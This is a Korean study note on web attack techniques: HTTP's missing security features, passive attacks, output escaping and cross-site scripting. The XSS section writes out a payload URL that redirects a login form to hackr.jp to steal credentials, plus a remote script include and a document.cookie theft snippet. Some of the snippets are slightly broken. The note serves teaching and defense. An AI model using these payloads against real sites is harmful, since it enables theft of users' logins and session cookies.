

# 웹 공격 기술
## HTTP에는 보안 기능이 없다
현재의 웹 사이트는 인증, 세션 관리, 암호화 등의 기능이 필요하지만 HTTP 프로토콜에는 없는 기능입니다.

SSH 프로토콜에는 프로토콜 레벨에서 인증이나 세션 관리 등의 기능이 준비되어 있지만 HTTP에는 없습니다.

웹 애플리케이션의 HTTP 프로토콜에는 보안 기능이 없으므로 개발자가 인증, 세션 관리, 암호화 기능을 설계 및 구현해야 합니다.

## 리퀘스트는 클라이언트에서 변조 가능
서버로 요청이 온 HTTP 리퀘스트에는 변조의 가능성이 있습니다.

쿼리나 폼, HTTP 헤더, 쿠키 등을 경유해서 보내져 웹 애플리케이션에 취약성이 있으면 정보를 도둑맞거나 권한을 빼앗길 수 있습니다.

## 웹 애플리케이션에 대한 공격 패턴
- 능동적 공격 : 공격자가 직접 웹 애플리케이션에 접근해서 공격 코드를 보내는 타입 (SQL 인젝션, OS 커맨드 인젝션)
- 수동적 공격 : 함정을 이용해서 유저에게 공격 코드를 실행시키는 공격 (크로스 사이트 스크립팅)

### 수동적 공격 과정
1. 공격자가 설치한 함정에 유저를 유도합니다. 함정에는 공격 코드를 심어두고 HTTP 리퀘스트를 발생시키기 위한 장치가 되어 있습니다.
2. 사용자가 함정에 걸리면 유저의 브라우저나 메일 클라이언트에서 함정을 열게 됩니다.
3. 유저의 브라우저가 장착된 공격 코드를 포함한 HTTP 리퀘스트를 공격 대상인 웹 애플리케이션에 송신하고 공격 코드를 실행합니다.
4. 공격 코드를 실행하면 웹 애플리케이션 경유한 결과로서 유저가 가지고 있는 쿠키 등의 기밀 정보를 도둑맞거나 로그인 중인 유저의 권한을 빼앗습니다.
- 크로스 사이트 스크립팅(XSS, cross-site scripting)과 크로스 사이트 리퀘스트(CSRF, Cross Site Request Forgery)

### 인트라넷 등에 대한 공격
수동적 공격을 이용하면 인트라넷 같은 인터넷에서 직접 접근할 수 없는 네트워크를 공격할 수 있습니다.

공격자가 설치한 함정에 유저가 액세스 할 수 있는 네트워크라면 인트라넷도 공격할 수 있습니다.

# 출력 값의 이스케이프 미비로 인한 취약성
웹 애플리케이션의 보안 대책 실시하는 장소
- 클라이언트에서 체크
- 서버에서 체크
  - 입력값 체크
  - 출력값 체크

### 클라이언트 체크
클라이언트 체크는 대부분 JS로 합니다. 그러나 변조가 될 가능성이 있기 때문에 보안 대책으로 적합하지 않습니다.

클라이언트 체크는 단지 입력 실수를 체크해주는 정도입니다.

### 서버 체크
서버에서 입력값 체크는 시스템에서 요구하는 값인지 아닌지에 대한 체크나 문자 코드의 체크 등을 실시합니다.

웹 애플리케이션에서 처리한 데이터를 DB나 파일 시스템, HTML, 메일 등에 출력할 때 출력하는 곳에 따라 값을 이스케이프 처리하는

출력 값의 이스케이프가 보안 대책으로 중료합니다. 출력 값의 이스케이프가 미비할 경우 공격자가 보낸 공격 코드가 출력하는 대상에

피해를 입힐 수 있습니다.

## 크로스 사이트 스크립팅
크로스 사이트 스크립팅(XSS, Cross-Site Scripting)은 취약성 있는 웹 애플리케이션을 방문한 사용자의 브라우저에서
부정한 html 태그나 js 등을 동작시키는 공격입니다.

공격자가 작성한 스크립트가 함정이 되고 유저의 브라우저 상에서 움직이는 수동적 공격입니다.

크로스 사이트 스크립팅에 의해서 다음과 같은 영향을 받습니다.
- 가짜 입력 폼 등에 의해서 유저의 개인 정보를 도둑맞습니다.
- 스크립트에 의해 유저의 쿠키 값이 도둑맞거나 피해자가 의도하지 않는 리퀘스트가 송신됩니다.
- 가짜 문장이나 이미지 등이 표시됩니다.

### 크로스 사이트 스크리팅 공격 사례


위 그림과 같이 클라이언트가 이름과 메일 주소를 입력하고 서버에 데이터를 제출하는 흐름이고 제출된 데이터는 그대로

화면에 표시됩니다. 만약 이름에 "<s>김용환</s>"라고 입력하고 제출하면 출력 화면에서는 취소선이 적용됩니다.

### XSS는 공격자가 함정을 준비하는 수동적 공격
예를 들어 어떤 웹 애플리케이션의 로그인 페이지에서 URL의 쿼리에 ID를 지정해서 폼 내의 문자열을 보완하는 기능이 있다고 가정합니다.

"http://example.jp/login?ID=yama"라고 URL을 입력하면 yama라는 문자열이 폼 내의 ID 입력칸에 미리 저장되는 구조입니다.

이러한 취약성을 파악한 공격자는 스크립트를 작성한후 유저가 다음과 같은 URL을 클릭하도록 유도합니다.

```
http://example.jp/login?ID="><script>var+f=document=>
.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s="
```

URL을 열어도 보기에는 변함이 없지만 설치한 스크립트가 동작하고 있어 유저가 폼에 ID와 패스워드를 입력하면 공각자의

사이트인 hackr.jp로 송신되어 아이디와 비밀번호를 빼앗기게 됩니다. 그리고 그후에 원래 사이트에 ID와 패스워드를 전송하여

로그인을 하면 유저는 정보가 유출된 것을 눈치재지 못할 가능성이 있습니다.

### 유저의 쿠키를 빼앗는 공격
폼에 함정을 설치하는 것 외에도 아래와 같은 스크립트를 추가하여 유저 쿠키를 크로스 사이트 스크립팅으로 빼앗을 수 있습니다.

```
<script src=http://hackr.jp/xss.j></script>
```

위 스크립트는 다음과 같이 코딩되어 있습니다.

```
var content = escape(document.cookie);
document.write("");
document.write(content)
document.write(">");
```

